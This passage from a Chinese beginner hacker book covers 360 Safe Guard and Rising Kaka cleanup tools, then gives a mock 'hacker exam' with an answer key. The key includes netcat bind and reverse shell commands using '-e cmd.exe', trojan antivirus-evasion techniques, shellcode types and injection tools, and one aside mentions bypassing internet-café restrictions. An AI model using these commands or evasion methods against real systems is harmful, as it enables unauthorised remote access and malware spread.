还等什么，马上将“允许用户远程连接到此计算机”前边的勾取消掉，确定后，再将那个该死的 new 帐号删除掉，或是为其设置一个足够强壮复杂的密码才行。

图 7.20

### 7.4 电脑安全的好帮手——360 安全卫士

对于个人用户的电脑来讲，他们通常受到的攻击并不是来自于黑客的入侵，而是来自于病毒、木马和流氓软件的攻击。对于病毒和木马，有各种杀毒软件帮助我们进行查杀，但对于那些流氓软件，杀毒软件的作用就不是那么明显了，因此我们需要再给自己的电脑安装上可以用于查杀流氓软件的工具。

我们打开 360 安全卫士的官方网站 http://www.360safe.com，直接点击“立即下载”来下载其最新的 3.5 版本，如图 7.21。

图 7.21

下载完成后，直接双击运行 360 安全卫士的安装程序 setup.exe，然后基本是一直点击下一步，就会安装成功了。360 安全卫士启动后，会自动检测并更新自己的特征库，如图 7.22。更新完毕后，我们点击“立即扫描”，360 安全卫士就会自动加载特征库进行检测了，不一会儿检测结束了，从系统中检测出了 Alexa 工具栏，我们勾选上它，然后点击下方的“立即清理”，就会将 Alexa 工具栏从我们的电脑中彻底清除了，如图 7.23。

另外，360 安全卫士还从电脑中检测出了三款好评插件，我们点击“好评插件”，在右边的窗口中就会显示出插件详细的说明了。如果我们发现了恶意插件的话，只需要勾选上，点击“立即清理”就可以将其清除了，如图 7.24。

图 7.22

图 7.23

图 7.24

我们切换到“查杀流行木马”选项，点击“开始扫描”，很快地，360 安全卫士就从我们的电脑中查出了木马，如图 7.25。勾选上“全选”，然后点击“立即查杀”就可以清除木马了。

切换到“修复系统漏洞”选项，360 安全卫士会提示我们的系统存在多少个安全漏洞以及其它设置方面的安全隐患。点击“查看并修复漏洞”，360 就会给出详细的漏洞信息，我们勾选上“全选”，然后点击“下载并修复”就可以自动下载补丁程序并进行安装了，如图 7.26。使用 360 给系统打补丁也非常简单吧！

图 7.25

图 7.26

我们点击最上方的“高级”，切换到 360 的高级功能，在这儿，我们可以修复被流氓软件修改的 IE 浏览器，查看系统启动项，当前的网络连接情况，系统进程情况等，如图 7.27。一些非常厉害的病毒和木马，当我们使用杀毒软件清除完毕后，有时会发现电脑的网络协议被破坏了，此时电脑的网络设置全都正常，可就是无法连接网络。这种情况下，我们就可以进入“修复 LSP 连接”选项，先选择“修复 Winsock LSP”，如果还不成功的话，就选择“恢复 Winsock LSP 到初始状态”，基本上就可以将协议修复，使我们可以正常连接网络了，如图 7.28。

图 7.27

图 7.28

再来看一下 360 安全卫士的“保护”功能，主要有“恶评插件入侵拦截”、“网页防漏及钓鱼网站拦截”、“系统关键位置保护”、“系统漏洞及其它信息提示”、“U 盘病毒免疫”等几项，如果我们想使用这些保护功能的话，只需要点击相应的“开启”就可以了，如图 7.29。

### 7.5 瑞星卡卡上网安全助手

瑞星卡卡上网安全助手是一款与 360 安全卫士类似的工具软件，我们可以从 http://tool.ikaka.com 上下载到其最新的 4.0 版本，如图 7.30。

卡卡的安装也非常简单，基本上一直点击“下一步”就可以完成安装了。卡卡启动后也会自动检测并升级到最新的版本，如图 7.31。

图 7.29

图 7.30

图 7.31

直接选择“基本功能”，卡卡就会自动检测系统中是否有流氓软件了。看，查出来一个 MyIEHelper，直接勾选上，点击“立即清除”就可以将其从电脑中清除了，如图 7.32。而在“未知病毒查杀”选项，我们也可以对病毒进行一些检测。在“应用软件管理”选项，可以对系统中安装的软件进行管理，很方便地实现软件的卸载，如图 7.33。

图 7.32

图 7.33

我们点击“隐私保护”功能，在这儿可以清除我们的上网记录以及一些软件的历史记录，如图 7.34。

图 7.34

来看一下“防护中心”，主要包括 IE 防漏墙、不良网站访问防护、U 盘病毒免疫等三大项，默认情况下这三项都是启用的，如图 7.35。

第七章 个人电脑安全一点通。

图 7.35

最后再来看一下卡卡的“高级功能”，切换到“插件管理及卸载”选项，如果我们发现其中有恶意插件的话，就可以勾选上，点击“卸载”就可以将其清除了，如图 7.36。

图 7.36

在“IE 及系统修复”选项中，我们可以对桌面程序、IE 浏览器中的异常限制进行修复。事实上，倘若我们在网吧中使用该功能的话，有时会破解掉网吧中的一些使用限制，如图 7.37。

图 7.37

切换到“进程管理”选项，在这儿显示出了当前系统中所有的进程，我们选中某个进程，在下方就会列出该进程的模块，如果发现了可疑进程的话，选中后点击“结束进程”就可以了，如图 7.38。

图 7.38

来看一下“系统启动项管理”，默认情况下显示出来的是“登录项”的启动项目。我们也可以选择“全部”来列出所有的启动项目。如果我们发现了可疑的启动选项的话，只需要先点选该选项，然后点击鼠标右键，在弹出的菜单中选择“删除当前选中的项”就可以将其删除了，如图 7.39。

图 7.39

关于 360 及卡卡的详细使用我们就介绍到这儿。只要大家掌握了以上的方法，再配合这些安全工具的使用，基本上就没什么问题了。好了，今天的课我们就上到这儿，大家早点儿回去复习一下，明天九点准备开始考试，这一回可不要说我没有留时间给你们复习哟！

## 第八章 黑客试卷

“虽然本次菜鸟学堂只有短短的七天学习时间，可是我已经越来越喜欢大家了，真舍不得结束本期的菜鸟学堂。可是我们的课程已经全部讲完了，自然也就该结束了。”这是 sagi 老师的开场白。

“既然如此，那我们就不结束，sagi 老师就继续教我们吧！”阿黑说道。

“那怎么行，下期的菜鸟学堂马上就要准备开课了，不结束的话，校长要扣我钱的。好了，按照我们的课程安排，这最后一天嘛，自然是准备考试，来检验一下大家经过这几天紧张而又忙碌的学习，都学到了多少知识。对于本次考试的倒数第一名，除了要罚做一百个俯卧撑外还要请客吃肯德基。”

“大家在做试卷时，请不要参考任何答案资料，用各位现在的知识去答题，这样才能表现出自己的真实水平来，希望大家都能考出好成绩！”

## 黑客试卷

### 一、单项选择题（每题 2 分，共 20 道题）

- 1. 黑客在网络中的原始目的是什么？（ ）  
  A. 搞破坏  B. 实现资源共享  C. 盗取信息  D. 为了有趣
- 2. 3389 默认是什么服务所使用的端口？（ ）  
  A. MySQL  B. 终端服务  C. MsSQL  D. 远程登录
- 3. 在 Windows 系统中，默认的管理员账号是？（ ）  
  A. Admin  B. root  C. Administrator  D. Guest
- 4. 在 UNIX/Linux 系统中，默认的管理员账号是？（ ）  
  A. Admin  B. root  C. Administrator  D. Guest
- 5. 下边哪一个不属于木马？（ ）  
  A. 灰鸽子  B. pcshare  C. 上兴  D. VNC
- 6. Telnet 服务默认使用的端口是哪个？（ ）  
  A. 22  B. 23  C. 25  D. 80
- 7. SSH 服务默认使用的端口是哪个？（ ）  
  A. 22  B. 23  C. 25  D. 80
- 8. 下面哪种文件不能感染病毒？（ ）  
  A. EXE  B. VBS  C. DLL  D. TXT
- 9. IIS 6.0 是哪个系统上默认使用的 WEB 服务组件？（ ）  
  A. Win2000  B. Linux  C. Win2003  D. SunOS

- 10、下面哪一个是面向连接的服务？（）
  A. UDP  B. FTP  C. TCP  D. 以上全是

- 11、下面哪种操作系统最初是为网络天生设计的？（）
  A. UNIX  B. Win2000/2003  C. WinXP  D. Vista

- 12、Linux 下使用哪个命令能够看到隐藏的目录？（）
  A. dir  B. ls  C. ls -la  D. dir /q

- 13、IDS 是什么？（）
  A. 防火墙  B. 入侵检测系统  C. 智能杀毒软件  D. 病毒扫描器

- 14、目前哪种 WEB 服务组件在网络里使用的最多？（）
  A. IIS  B. Thttpd  C. Apache  D. Zens

- 15、在 Linux 系统中，/etc/shadow 这个文件是干什么用的？（）
  A. 密码的备份文件  B. 用户信息文件  C. 隐藏文件  D. 存放加密过的密码

- 16、对于 MsSQL 数据库，默认哪种权限最大？（）
  A. SA  B. DB_OWNER  C. PUBLIC

- 17、脚本注入过程中，目前最常使用的权限提升方法是？（）
  A. 本地溢出  B. 替换系统服务  C. Serv-U  D. 破解密码

- 18、我们在使用 superscan 扫描 23 端口时，如果返回的是“........#..'..$”，那么对方的系统则可能是？（）
  A. Windows  B. SunOS  C. BSD  D. AIX

- 19、下边哪一个是用于在 Google 里搜索网址中包含特定字符的？（）
  A. intext  B. intitle  C. site  D. inurl

- 20、下面哪一种不属于木马免杀所使用的技术？（）
  A. 加壳  B. 加密  C. 修改特征码  D. 修改文件扩展名

### 二、填空题（每题 2 分，共 15 道题）

- 1、能被计算机直接识别的语言是________，现在通常使用的语言是________。

- 2、我们目前使用的 QQ 用的是________协议。

- 3、在 Windows 系统中，使用________文件格式可以用来设置目录及文件的权限，让系统更安全。

- 4、Windows 下的 runas 命令相当于 Linux 下的________命令。

- 5、通常一个完整的木马应该有________端和________端，应该把________端发给受害者。

- 6、查看正在和本机相连接的电脑的 IP，在 Windows 下应该使用________命令。

## 第八章：黑客试卷

- 7、我们可以使用 ATO 的________命令来检测出系统中被克隆的帐号。

- 8、说出目前比较流行的几种编程语言_______________________________。

- 9、获取密码的方式主要有__________________________________________这几种。

- 10、黑客入侵最常使用的方法是_____________________________________。

- 11、如果我们想制作免杀木马，那么可以使用__________________________等方法。

- 12、病毒和木马当前的传播途径主要有_______________________________。

- 13、溢出程序的 shellcode 主要有哪几种类型____________________________。

- 14、脚本注入中最常用到的辅助工具有_______________________________。

- 15、通过远程溢出获取 shell 后，我们可以使用________、________等方法进行文件上传。

### 三、问答题（每题 6 分，共五道题）

- 1、什么是 0day？

- 2、NC 的常用使用格式主要有哪些？

- 3、计算机病毒具有什么性质？

- 4、为什么国家在一些政府、军事等重要部门不使用 Windows 系列的操作系统？主要原因是什么？

- 5、写出 OSI 七层模型结构和传递信息过程。

## 黑客试卷参考答案

- 0--30分：你现在是个初学者，前途无量，请继续努力吧！

- 30--70分：看来你已经达到中级菜鸟的水平了，很不错！

- 70--100分：你太 cool 了，这本书你一定都能看懂。专为你订身设计，如果继续努力学习下去，相信一定会大有所成！

## 一、单项选择答案

1.B  2.B  3.C  4.B  5.D  6.B  7.A  8.D  9.C  10.B

11.A  12.C  13.B  14.C  15.D  16.A  17.C  18.B  19.D  20.D

### 二、填空题答案

- 1. 机器语言、高级语言

- 2. UDP

- 3. NTFS

- 4. su

- 5. 客户端　服务端　服务端

- 6. netstat

- 7. ato -checkclone

- 8. C　C++　VB　DELPHI

- 9. 本地密码破解　远程密码破解　嗅探

- 10. 远程溢出　远程口令猜解　脚本注入　远程文件包含

- 11. 加壳　加密　加花指令　修改特征码

- 12. QQ/MSN　电子邮箱　网页挂马　远程溢出

- 13. 正向在某个端口上绑定 shell　反向将 shell 发送到我们本地监听的端口上　下载文件并执行　添加用户

- 14. 啊D注入工具　HDSI　DOMAIN　NBSI

- 15. IPC$　TFTP　FTP　EXE2BAT

### 三、问答题答案

1. 0day 最初是被用在破解领域，当时是指某个软件推出后在不到 24 个小时内就被破解，并发布到网上与大家共享。但目前的网络安全界都将 0day 理解为还没有发布补丁程序的安全漏洞，因为没有修复的补丁程序，所以这样的漏洞危害性非常大。

2. nc 最经常使用的方法主要有以下几种：

- (1) `nc -vv IP或域名 端口`  
  用于连接远程电脑的某个端口。

- (2) `nc -vv -l -p 端口`  
  用于在本地电脑的某个端口上监听数据。

- (3) `nc -vv -p 端口 -e cmd.exe`  
  将 cmd.exe 重定向到本地电脑的某个端口上，这样当别人连接该端口时，就会得到一个 cmd shell 了。

- (4) `nc -vv -e cmd.exe IP 端口`  
  将本地电脑的 cmd.exe 程序重定向到另一台电脑的某个端口上。

3. 计算机病毒通常具有潜伏性、隐蔽性、感染性、破坏性。

4. 因为直到目前为止，Windows 系列操作系统的源代码都没有完全公开，在网上也经常会看到国外的一些安全研究人员在 Windows 系统中发现了类似后门的代码等消息。因此，Windows 系统中是否真的刻意留有后门，谁也说不清楚。为了国家的安全，因此在政府、军事等一些重要的部门才不会选择 Windows 系统，而使用了开源的 Linux 等系统。

5. 应用层－表达层－会话层－传输层－网络层－数据链路层－物理层

## 黑客 X 档案制作